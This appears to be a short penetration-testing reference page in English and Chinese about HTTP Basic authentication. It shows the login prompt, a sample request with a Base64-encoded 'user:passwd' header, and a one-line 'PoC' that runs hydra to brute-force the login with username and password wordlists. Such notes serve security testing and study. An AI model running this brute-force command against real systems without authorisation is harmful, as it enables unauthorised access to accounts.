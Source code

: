 The "Basic" Hypertext Transfer Protocol (HTTP) authentication scheme transmits credentials as user-id/password pairs encoded using Base64.

## 1. Fingerprint

访问网站时的登录窗口

![访问网站时的登录窗口](./../../../images/Basic%20Auth/%E8%AE%BF%E9%97%AE%E7%BD%91%E7%AB%99%E6%97%B6%E7%9A%84%E7%99%BB%E5%BD%95%E7%AA%97%E5%8F%A3.png)

登录时的请求包

```
GET / HTTP/1.1
Host: 192.168.36.55:81
Authorization: Basic dXNlcjpwYXNzd2Q=


```

> `dXNlcjpwYXNzd2Q=` 为 Base 64 编码后的 `user:passwd` 

## 2. PoC

```
hydra 192.168.36.55 -s 81 http-get / -L username.txt -P password.txt -e ns -vV
```

---

References

- [The 'Basic' HTTP Authentication Scheme](https://datatracker.ietf.org/doc/html/rfc7617)